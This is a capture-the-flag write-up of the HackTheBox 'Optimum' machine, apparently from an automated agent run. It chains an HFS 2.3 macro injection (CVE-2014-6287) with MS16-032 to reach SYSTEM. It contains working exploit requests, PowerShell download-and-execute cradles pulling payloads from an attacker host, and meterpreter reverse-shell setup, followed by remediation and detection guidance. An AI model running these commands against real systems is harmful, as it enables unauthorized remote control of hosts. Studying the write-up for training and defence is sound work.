


# HackTheBox - Optimum

**OS:** Windows Server 2012 R2 (Standard, x64)

Optimum is a single-service Windows box: the only open TCP port is 80, serving Rejetto
HttpFileServer (HFS) 2.3. That version carries CVE-2014-6287, a macro-injection flaw where a
null byte in the search parameter slips a `{.exec.}` directive past HFS's own macro filter and
runs arbitrary commands as the service user. That gives a foothold as `kostas`. The host is an
unpatched 2012 R2 build, so privilege escalation is a straight kernel/service exploit:
MS16-032 (CVE-2016-0099), a race condition in the Secondary Logon service, leaks a SYSTEM
token and spawns a SYSTEM process. End state is `NT AUTHORITY\SYSTEM`.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip>` (OPTIMUM) |
| Initial Access | Rejetto HFS 2.3 macro injection (CVE-2014-6287) -> meterpreter as `kostas` |
| Privilege Escalation | MS16-032 (CVE-2016-0099) Secondary Logon handle race -> SYSTEM |
| Final Access | `NT AUTHORITY\SYSTEM` |

---

## Recon

### Port Scan

A full TCP sweep ran in the background for the record; a fast service scan oriented the work.
Only one port is open.

```
$ nmap -p- --min-rate 5000 -oN nmap-full.txt <target-ip>
...
80/tcp open  http

$ nmap -sCV -p80 -oN nmap-svc.txt <target-ip>
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

| Port | Proto | Service | Notes |
|---|---|---|---|
| 80 | TCP | HTTP | Rejetto HttpFileServer (HFS) 2.3 |

> **Why this works:** the `Server: HFS 2.3` header and the page `<title>HFS /</title>` are
> enough to pin the product and version. HFS is a single-binary personal file server; "2.3"
> is the last 2.x release and is the version tied to CVE-2014-6287. With one port and a
> known-vulnerable banner, there is no reason to enumerate breadth-for-breadth's-sake.

### Web Service Identification

The landing page confirms HFS and its version banner directly.

```
$ curl -s -i http://<target-ip>/
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3833
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.351298943860456; path=/;
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN">
<html>
<head>
	<title>HFS /</title>
...
```



---

## Initial Access

### Rejetto HFS Macro Injection (CVE-2014-6287)

HFS ships a server-side template/macro engine. Macros are written `{.command.}` and HFS
strips them from user-controlled input before rendering. The bug: the regex that strips macros
stops at a null byte, so prefixing the search parameter with `%00` smuggles a macro past the
filter. The `{.exec|<cmd>.}` macro then runs `<cmd>` on the host as the account running HFS.

The request shape is:

```
http://<target-ip>/?search=%00{.exec|<url-encoded command>.}
```

**Confirm code execution out-of-band first.** Before staging a payload, prove the macro runs
by forcing the target to call back to a listener. Start a web server on the attack box and have
the target's PowerShell fetch a canary URL:

```
$ python3 -m http.server 8000 --bind <attacker-ip>
Serving HTTP on <attacker-ip> port 8000 ...

# in another shell: url-encode the command and fire the macro
$ CMD="powershell.exe (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:8000/rce-confirmed')"
$ PAYLOAD=$(python3 -c "import urllib.parse,sys; print(urllib.parse.quote(sys.argv[1]))" "$CMD")
$ curl -s "http://<target-ip>/?search=%00%7B.exec%7C${PAYLOAD}.%7D" -o /dev/null -w "HTTP %{http_code}\n"
HTTP 200
```

The http.server log shows the target reaching back, which proves the macro executed PowerShell
on the host (404 is expected, the canary file does not exist):

```
10.129.x.x - - [.. ..:..:..] "GET /rce-confirmed HTTP/1.1" 404 -
10.129.x.x - - [.. ..:..:..] "GET /rce-confirmed HTTP/1.1" 404 -
```

> **Why this works:** HFS strips `{.exec.}` from search input, but the filter is implemented
> with a regex that treats a null byte as end-of-string. The bytes after `%00` are never
> scanned, so the macro survives into the rendering stage and the engine happily executes it.
> Confirming RCE with a harmless callback (before throwing a real payload) separates "the
> exploit fired" from "the payload/listener is misconfigured" - they fail differently and you
> want to debug them separately.

### Egress check before committing a listener port

HTB Windows targets are often outbound-restricted, so confirm the callback port egresses
before binding a handler to it. Reusing the same macro, point the target at the candidate port
and watch for the hit:

```
$ python3 -m http.server 443 --bind <attacker-ip>        # candidate listener port
$ CMD="powershell.exe (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:443/egress443')"
... fire the macro as above ...
10.129.x.x - - [.. ..:..:..] "GET /egress443 HTTP/1.1" 404 -      # 443 egresses
```

> **Why 443 / HTTPS:** outbound 443 is almost always permitted, the meterpreter session rides
> inside TLS so a NIDS cannot read the channel on the wire, and HTTP(S) beaconing tolerates
> blips and proxies. This is network-layer realism and reliability, **not** endpoint/AV
> evasion - a vanilla meterpreter binary is signatured to death; on this lab (no EDR) that does
> not matter, but do not mistake it for a bypass.

### Foothold: staged meterpreter as `kostas`

Build a meterpreter binary, host it, set up the matching handler, then use the macro to
download and run it.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker-ip> LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 910 bytes
Final size of exe file: 7680 bytes
Saved as: rev.exe
```

Start the handler (a human would do this in `msfconsole`; the MCP `start_listener` used in this
run is the exact equivalent):

```
$ msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST <attacker-ip>
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set ExitOnSession false
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started HTTPS reverse handler on https://<attacker-ip>:443
```

Deliver the payload through the macro - download to a writable path, then execute it:

```
$ CMD='powershell.exe -nop -c "(New-Object Net.WebClient).DownloadFile('"'"'http://<attacker-ip>:8000/rev.exe'"'"','"'"'C:\Windows\Temp\rev.exe'"'"'); Start-Process C:\Windows\Temp\rev.exe"'
$ PAYLOAD=$(python3 -c "import urllib.parse,sys; print(urllib.parse.quote(sys.argv[1]))" "$CMD")
$ curl -s "http://<target-ip>/?search=%00%7B.exec%7C${PAYLOAD}.%7D" -o /dev/null -w "HTTP %{http_code}\n"
HTTP 200
```

The host pulls the binary and the handler catches the session:

```
# http.server log
10.129.x.x - - [.. ..:..:..] "GET /rev.exe HTTP/1.1" 200 -

# msfconsole
[*] https://<attacker-ip>:443 handling request from 10.129.x.x; (UUID: ...) Staging x64 payload ...
[*] Meterpreter session 1 opened (<attacker-ip>:443 -> 10.129.x.x:49174)

msf6 exploit(multi/handler) > sessions -i 1
meterpreter > getuid
Server username: OPTIMUM\kostas
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x64/windows
```

> **Gotcha worth recording:** the `el_GR` (Greek) system locale means console output is not
> UTF-8 (e.g. `systeminfo` emits 0xA3). When scripting meterpreter over RPC, decode session
> output with `errors='replace'` or the reader will throw on the first non-ASCII byte.

Pull the user flag:

```
meterpreter > shell
C:\Users\kostas\Desktop> whoami & type C:\Users\kostas\Desktop\user.txt
optimum\kostas
<user-flag-redacted>
```

---

## Post-Exploitation Enumeration

`kostas` is a normal user, not an administrator. The host is Windows Server 2012 R2, Build
9600. The fastest escalation read on an old, single-purpose box is patch level.

```
C:\Users\kostas\Desktop> systeminfo
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Type:               x64-based PC
Hotfix(s):                 31 Hotfix(s) Installed.
```

Thirty-one hotfixes on a 2012 R2 build is a thin patch history. Feeding `systeminfo` to a
patch-gap tool (Sherlock / Watson / `windows-exploit-suggester`, or meterpreter's
`post/multi/recon/local_exploit_suggester`) flags the Secondary Logon race **MS16-032
(CVE-2016-0099)** as the cleanest local privilege escalation: it is a logic/race bug (no shellcode,
no kernel ROP), it works on 2k8-2k12 / Win7-Win10, and it only needs a host with 2+ CPU cores
to win the race.

---

## Privilege Escalation

### MS16-032 (CVE-2016-0099) - Secondary Logon Handle Race

The Secondary Logon service (`seclogon`) creates a process with a duplicated token but, under a
race, fails to properly clean up a leaked SYSTEM thread handle. Ruben Boonen's
(`@FuzzySec`) PowerShell PoC `Invoke-MS16-032` weaponizes this: it suspends a `svchost`
thread, builds a SYSTEM impersonation token, then races `CreateProcessWithLogonW` against
`SetThreadToken` until it launches a process under the leaked SYSTEM token.

> **Safety review (run before execution):** `Invoke-MS16-032` is the well-known FuzzySec /
> PowerShell-Empire PoC. It executes **on the target**, makes no third-party callbacks, and the
> only command it runs as SYSTEM is the `-Cmd` argument you pass. Decision: **SAFE-to-run**.
> Always read a PoC's process-spawn path before firing it.

Stage a second meterpreter (the SYSTEM payload) and a second handler on another egress-checked
port (8443 verified the same way as 443 above):

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker-ip> LPORT=8443 -f exe -o rev2.exe
Saved as: rev2.exe

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST <attacker-ip>
msf6 exploit(multi/handler) > set LPORT 8443
msf6 exploit(multi/handler) > run -j
[*] Started HTTPS reverse handler on https://<attacker-ip>:8443
```

Take the Empire copy of the PoC and append an invocation that, as SYSTEM, downloads and runs
the second payload. The function parameter is `-Cmd` (the SYSTEM command is run as
`powershell.exe -Command <Cmd>`):

```
$ cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1 priv.ps1
$ cat >> priv.ps1 <<'EOF'

$sys = "(New-Object Net.WebClient).DownloadFile('http://<attacker-ip>:8000/rev2.exe','C:\Windows\Temp\rev2.exe'); Start-Process 'C:\Windows\Temp\rev2.exe'"
Invoke-MS16-032 -Cmd "$sys"
EOF
```

Run it fileless from the `kostas` shell - pull the script straight into memory and execute:

```
C:\Users\kostas\Desktop> powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>:8000/priv.ps1')"

  __  __ ___ _  ___    _____ ___ ___
 |  \/  / __/ |/ / /  |__ /_  )__ /
 | |\/| \__ \ ' <| _ \  |_ \/ / |_ \
 |_|  |_|___/_|\_\___/ |___/___|___/   MS16-032 by @FuzzySec

[?] Operating System core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Sniffing out privileged impersonation token..
[?] Trying thread handle: 1544
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 3228
[+] Resuming thread..
[*] Sniffing out SYSTEM shell..
[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

The SYSTEM process pulls the second payload and the 8443 handler catches a SYSTEM session:

```
# http.server log
10.129.x.x - - [.. ..:..:..] "GET /rev2.exe HTTP/1.1" 200 -

# msfconsole
[*] https://<attacker-ip>:8443 handling request from 10.129.x.x; Staging x64 payload ...
[*] Meterpreter session 2 opened (<attacker-ip>:8443 -> 10.129.x.x:49182)

msf6 > sessions -i 2
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> **Gotcha worth recording:** the PoC notes it is reliable but ~1/6 runs report success
> without spawning the shell. If "Holy handle leak Batman" prints but no session lands, just
> re-fire it - this happened on the first attempt here and the second attempt caught the
> SYSTEM session. Needs 2+ cores to win the race (this host has 2).

Pull the root flag:

```
meterpreter > shell
C:\Windows\system32> whoami & hostname & type C:\Users\Administrator\Desktop\root.txt
nt authority\system
optimum
<root-flag-redacted>
```



> **Faster one-shot alternative:** both halves have canned Metasploit modules -
> `exploit/windows/http/rejetto_hfs_exec` (set `RHOSTS`/`RPORT`, a `reverse_https` payload, and
> `run`) for the foothold, and `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
> (`set SESSION 1`, `run`) for the escalation. The manual macro + hosted-PoC path above is shown
> because it is the more educational and more reliable route when the canned module's payload
> staging is finicky.

---

## Root Cause

- **Initial access:** HFS 2.3's macro filter strips `{.exec.}` directives using a routine that
  terminates on a null byte. A `%00` prefix in the `search` parameter places the malicious macro
  in the unscanned tail, so it survives filtering and is executed by the template engine
  (CVE-2014-6287). HFS 2.3 is end-of-life and unpatched.
- **Privilege escalation:** the Secondary Logon service leaks a SYSTEM thread handle during a
  race window and never sanitizes it, letting an unprivileged caller impersonate SYSTEM
  (MS16-032 / CVE-2016-0099). The host is missing the March 2016 cumulative update that fixes it.

## Impact

A single unauthenticated HTTP request reaches arbitrary code execution as `kostas`, and an
unpatched local race lifts that to `NT AUTHORITY\SYSTEM` - full control of the host: read or
alter any file, dump credentials from memory/SAM, install persistence, and pivot using any
cached or reused credentials. There is no authentication anywhere in the chain up to the
foothold.

## Remediation

Priority-ordered - the first items break the demonstrated path, the rest are hardening.

1. **Remove or upgrade HFS.** HFS 2.3 is unsupported. Retire it, or move to a maintained file
   service. If HFS must stay, never expose it unauthenticated to untrusted networks - put it
   behind a VPN/reverse proxy with authentication. This single step breaks initial access.
2. **Patch the OS.** Apply MS16-032 (March 2016) and bring 2012 R2 fully current. This breaks
   the escalation. A 2012 R2 host with only 31 hotfixes is years behind; establish a patch SLA.
3. **Egress filtering.** The host could open arbitrary outbound HTTPS (443/8443) to an attacker.
   Restrict outbound traffic from servers to known destinations; this would have blocked both
   the staged download and the C2 callback.
4. **Run the service as a least-privileged account** with no interactive-logon rights, so a
   service compromise yields the weakest possible token.
5. **Application allowlisting** (WDAC / AppLocker) to stop `C:\Windows\Temp\*.exe` and ad-hoc
   PowerShell download-cradles from executing.

### Validation

- `curl -s -I http://host/` no longer returns `Server: HFS 2.3` (service removed or upgraded).
- `systeminfo` lists KB3139914 / the March 2016 rollup; `Invoke-MS16-032` reports the host is
  not vulnerable.
- From the server, an outbound `curl https://<external-ip>:8443` is blocked by egress rules.
- An unauthenticated request to the file service is challenged for credentials.

## Detection Opportunities

- **HFS exploitation:** web/proxy logs showing `search=%00` or `{.exec` / `{.` macro syntax in
  query strings to the HFS port; HFS spawning child processes (`hfs.exe` -> `powershell.exe` /
  `cmd.exe`) is a high-fidelity signal (Sysmon Event ID 1, parent `hfs.exe`).
- **Download cradle:** `powershell.exe` with `Net.WebClient`, `DownloadFile`/`DownloadString`,
  `-nop`, `-exec bypass`, or `IEX` (Event ID 4104 script-block logging; 4688/Sysmon 1 command
  line).
- **MS16-032:** `seclogon` abuse via `CreateProcessWithLogonW` with `LOGON_NETCREDENTIALS_ONLY`;
  a non-admin process suddenly running as SYSTEM; PowerShell loading Win32 API types
  (`Advapi32`, `Kernel32`) reflectively (4104).
- **Process anomaly:** binaries executing out of `C:\Windows\Temp` (Sysmon 1, Event ID 4688).
- **Network:** new outbound HTTPS from a server to an unfamiliar host on 443/8443.

## Lessons Learned

- A single known-vulnerable banner (`Server: HFS 2.3`) is the whole engagement - version
  fingerprinting beats breadth scanning when the product maps directly to a CVE.
- Confirm RCE out-of-band and confirm egress on the listener port **before** blaming a payload;
  the macro firing, the binary staging, and the C2 calling back are three separate failure
  modes.
- Patch-gap analysis (`systeminfo` -> suggester) is the fastest escalation read on old,
  single-purpose Windows hosts; MS16-032 is the canonical 2k8-2k12 local race.
- `reverse_https` on a common port buys egress reliability and on-wire opacity, not AV evasion -
  describe it accurately.

## Cleanup

- Killed both Metasploit handler jobs (443, 8443) and terminated both meterpreter sessions.
- Removed staged binaries dropped on the target: `C:\Windows\Temp\rev.exe` and
  `C:\Windows\Temp\rev2.exe`.
- The MS16-032 PoC ran **in memory** (`IEX` download cradle) - nothing written to disk on the
  target for the escalation step.
- Stopped the attack-box `python3 -m http.server` instances; cleared local payloads
  (`rev.exe`, `rev2.exe`).
- No accounts, services, or ACLs were modified on the host.
